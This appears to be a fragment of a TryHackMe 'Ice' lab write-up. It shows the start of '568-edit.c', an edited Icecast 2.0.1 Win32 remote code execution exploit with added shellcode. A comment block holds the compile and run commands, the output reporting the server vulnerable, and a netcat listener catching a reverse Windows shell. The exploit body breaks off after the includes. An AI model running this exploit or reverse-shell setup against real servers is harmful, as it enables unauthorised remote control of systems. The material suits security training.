     C:\Program Files (x86)\Icecast2 Win32>

    ```

568-edit.c
----------

    /*

    Original exploit here: https://www.exploit-db.com/exploits/568
    I couldn't get this to work so I edited it according to
    https://www.exploit-db.com/exploits/573

    and made sure the shellcode was executed.

    Compile and run
    root@Kali:~/TryHackme/Ice# gcc 568-edit.c -o 568
    root@Kali:~/TryHackme/Ice# ./568 192.168.92.133

    Icecast <= 2.0.1 Win32 remote code execution 0.1
    by Luigi Auriemma
    e-mail: aluigi@altervista.org
    web:http://aluigi.altervista.org

    shellcode add-on by Delikon
    www.delikon.de

    - target 192.168.92.133:8000
    - send malformed data

    Server IS vulnerable!!!

    On listener
    root@Kali:~# nc -nlvp 443
    listening on [any] 443 ...
    connect to [192.168.92.128] from (UNKNOWN) [192.168.92.133] 49238
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Program Files (x86)\Icecast2 Win32>

    */

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    #ifdef WIN32
    #pragma comment(lib, "ws2_32.lib")
        #include <winsock.h>
        #include "winerr.h"

        #define close closesocket
    #else
        #include <unistd.h>
        #include <sys/socket.h>
        #include <sys/types.h>
        #include <arpa/inet.h>
        #include <netdb.h>
        #include <netinet/in.h>
    #endif
